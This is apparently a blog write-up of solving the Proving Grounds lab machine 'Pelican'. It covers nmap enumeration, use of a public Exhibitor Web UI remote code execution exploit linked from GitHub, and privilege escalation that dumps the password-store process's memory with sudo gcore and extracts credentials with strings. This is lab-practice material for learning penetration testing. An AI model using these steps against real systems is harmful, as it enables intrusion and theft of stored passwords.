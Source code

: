 ```yaml
---
date: '2024-09-13'
before : '2024-09-10'
after : '2024-09-16'
title: 'Proving Grounds : Pelican'
categories: [ 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving Pelican machine from Proving Grounds'
thumbnail: '../contentImages/pelican/1.png'
---
```


## 1. Recon
Starting with basic nmap scan
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.164.98 -p- -T4            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 17:07 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.59% done
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.63% done; ETC: 17:08 (0:01:00 remaining)
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.27% done; ETC: 17:08 (0:00:43 remaining)
Nmap scan report for 192.168.164.98
Host is up (0.032s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
46295/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.46 seconds

```
Oh my gosh. Let's go through step by step.


nmap scan for port 22 (ssh)
```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
```
Then, port 139, 445 (samba)
```
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)

Host script results:
|_clock-skew: mean: 1h20m02s, deviation: 2h18m34s, median: 1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2024-09-11T17:09:43-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-11T21:09:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```
Again, port 631 (ipp)
```
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
```
Suspicious port 2191 (zookeeper)
```
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
```
Strange that ssh is running on 2222, but port 2222 (ssh):
```
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
```
Standard http port 8080, 8081 (http)
```
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.164.98:8080/exhibitor/v1/ui/index.html
```
Finally, port 46295 (java-rmi)
```
46295/tcp open  java-rmi    Java RMI
```

So far, the most "suspicious" ports are indeed the one with zookeeper and http(s).


Let's start enueration...

## 2. Enumeration

As I visited webapp:
![image](../contentImages/pelican/1.png)

Somehow this should be connected to port 2191 (zookeeper). 

Searching with keyword exhibitor:

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit exhibitor
Exhibitor Web UI 1.7.1 - Remote Code Execution java/webapps/48654.txt
```

Let's take a closer look. I got a script from:

> https://github.com/thehunt1s0n/Exihibitor-RCE.git

Then:

![image](../contentImages/pelican/3.png)


Got a shell.

![image](../contentImages/pelican/4.png)

Or 

```

$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore

```
So maybe we should read password-store with gcore.

```
ps aux | grep "password-store"

(found out that PID is 490)

sudo /usr/bin/gcore 490

(created core.490)

strings ./core.490

(The `strings` command in Linux is used to extract and display readable **printable characters** (i.e., strings of text) from binary files or any non-text files)
```

![image](../contentImages/pelican/5.png)

So, let's try to escalate our privilege

![image](../contentImages/pelican/6.png)

Done!


Tipp: try to undestand gtfobins more correctly.

---
## Source

- Proving Grounds
- Me!